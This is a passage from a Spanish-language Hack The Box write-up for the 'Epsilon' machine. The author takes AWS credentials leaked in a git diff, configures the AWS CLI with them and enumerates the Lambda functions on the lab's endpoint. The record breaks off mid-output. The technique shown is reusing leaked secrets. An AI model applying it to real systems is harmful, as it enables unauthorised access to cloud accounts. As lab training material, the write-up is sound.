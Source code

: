 ```null
-    aws_secret_access_key='OsK0o/glWwcjk2U3vVEowkvq5t4EiIreB+WdFo1A',
+    aws_access_key_id='<aws_access_key_id>',
+    aws_secret_access_key='<aws_secret_access_key>',
     region_name='us-east-1',
-    endpoint_url='http://cloud.epsilong.htb')
-aws_lambda = session.client('lambda')    
+    endpoint_url='http://cloud.epsilon.htb')
+aws_lambda = session.client('lambda')
```

Se expone la clave e identificador de ```aws```. En el puerto 5000 tengo un panel de inicio de sesión

<img src="/writeups/assets/img/Epsilon-htb/1.png" alt="">

Pero como no tengo credenciales de momento lo voy a omitir. Agrego el subdominio ```cloud.epsilon.htb``` y el dominio ```epsilon.htb``` al ```/etc/hosts```

Agrego la configuración de ```aws``` a mi equipo

```null
aws configure
AWS Access Key ID [None]: AQLA5M37BDN6FJP76TDC
AWS Secret Access Key [None]: OsK0o/glWwcjk2U3vVEowkvq5t4EiIreB+WdFo1A
Default region name [None]: us-east-1
Default output format [None]: json
```

Listo las funciones

```null
aws --endpoint-url=http://cloud.epsilon.htb lambda list-functions
{
    "Functions": [
        {
            "FunctionName": "costume_shop_v1",
            "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:costume_shop_v1",
            "Runtime": "python3.7",
            "Role": "arn:aws:iam::123456789012:role/service-role/dev",
            "Handler": "my-function.handler",
            "CodeSize": 478,
            "Description": "",
            "Timeout": 3,
            "LastModified": "2023-06-15T14:51:11.800+0000",
            "CodeSha256": "IoEBWYw6Ka2HfSTEAYEOSnERX7pq0IIVH5eHBBXEeSw=",
            "Version": "$LATEST",
            "VpcConfig": {},
            "TracingConfig": {
                "Mode": "PassThrough"
```